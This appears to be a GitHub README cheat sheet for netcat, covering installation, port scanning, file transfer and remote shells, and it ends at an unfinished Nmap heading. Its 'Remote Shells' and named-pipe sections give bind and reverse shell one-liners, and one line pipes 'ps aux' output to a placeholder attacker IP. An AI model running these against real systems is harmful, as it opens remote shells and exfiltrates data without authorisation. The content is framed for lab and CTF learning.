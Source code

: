 # Cybersecurity-Mastery-Tools-and-Commands
Tools to Master for Cybersecurity Cheat Sheet




## 🔧 Netcat (nc) Command Reference

Netcat (often abbreviated `nc`) is a lightweight, low-level network utility used for reading, writing, and piping data across TCP/UDP connections. It’s often called the **"Swiss Army Knife"** of networking.

---

### 📦 Installation

**Debian/Ubuntu:**

```bash
sudo apt install netcat
```

**RHEL/CentOS:**

```bash
sudo yum install nc
```

---

### ⚡ Basic Usage

#### 🗣️ Simple Chat (TCP connection)

**On the server (listener):**

```bash
nc -lvp 1234
```

**On the client (connector):**

```bash
nc <server_ip> 1234
```

---

### 🔍 Port Scanning

```bash
nc -zv <target_ip> 1-1000
```

* `-z`: Zero-I/O mode (scan only)
* `-v`: Verbose output

---

### 📁 File Transfer

#### ⬆️ Send File:

```bash
nc <receiver_ip> 4444 < file.txt
```

#### ⬇️ Receive File:

```bash
nc -lvp 4444 > received.txt
```

---

## 👩‍🔌 Remote Shells

### Bind Shell (victim listens):

```bash
nc -lvp 4444 -e /bin/bash
```

### Reverse Shell (victim connects back):

```bash
nc <attacker_ip> 4444 -e /bin/bash
```

> ⚠️ Note: Many systems disable the `-e` flag. Use alternative techniques like `mkfifo` or `socat` instead.

---

## 🔀 Send Command Output

```bash
ps aux | nc <attacker_ip> 4444
```

---

## 🎯 Practical Examples

### 🕵️ Grab a Web Page (HTTP request):

```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```

### 📃️ Transfer a directory as tar.gz:

**Sender:**

```bash
tar czf - /my/folder | nc <receiver_ip> 4444
```

**Receiver:**

```bash
nc -lvp 4444 | tar xzvf -
```

---

## 🔐 Use with Named Pipes (No `-e` Available)

**On victim:**

```bash
mkfifo backpipe
cat backpipe | /bin/bash | nc <attacker_ip> 4444 > backpipe
```

---

## ⚠️ Security Note

Netcat is extremely powerful but also potentially dangerous. Always use it ethically and legally. Insecure by design — no encryption, no authentication.

---

## 🔗 Related Tools

* `ncat` – Netcat from Nmap with SSL support
* `socat` – More complex socket tool
* `cryptcat` – Encrypted Netcat variant

---

## 📚 Resources

* [https://nmap.org/ncat/](https://nmap.org/ncat/)
* [https://gtfobins.github.io/gtfobins/nc/](https://gtfobins.github.io/gtfobins/nc/)
* [https://highon.coffee/blog/netcat-cheat-sheet/](https://highon.coffee/blog/netcat-cheat-sheet/)

---

> 🧠 Save this as a quick reference and use it responsibly in your labs, CTFs, and red team exercises.
> ------------------------------------------------------------------------------------------------------
> ##NMAP Usage docs:
> 
